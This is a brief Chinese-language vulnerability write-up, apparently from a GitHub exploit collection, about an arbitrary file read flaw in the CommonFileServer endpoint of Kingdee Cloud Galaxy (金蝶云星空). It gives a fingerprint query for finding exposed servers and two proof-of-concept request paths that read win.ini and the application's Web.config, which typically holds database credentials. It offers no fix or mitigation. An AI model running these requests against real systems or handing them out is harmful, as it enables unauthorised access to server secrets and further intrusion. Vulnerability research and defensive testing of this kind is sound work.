

# 金蝶OA 云星空 CommonFileServer 任意文件读取漏洞

## 漏洞描述

金蝶OA 云星空 CommonFileServer接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件，进一步攻击服务器

## 漏洞影响

金蝶OA 云星空

## 网络测绘

```
app="金蝶云星空-管理中心"
```

## 漏洞复现

登陆页面


验证POC

```
/CommonFileServer/c%3a%2fwindows%2fwin.ini
/CommonFileServer/C%3A%5CProgram%20Files%20%28x86%29%5CKingdee%5CK3Cloud%5CWebSite%5CWeb.config
```

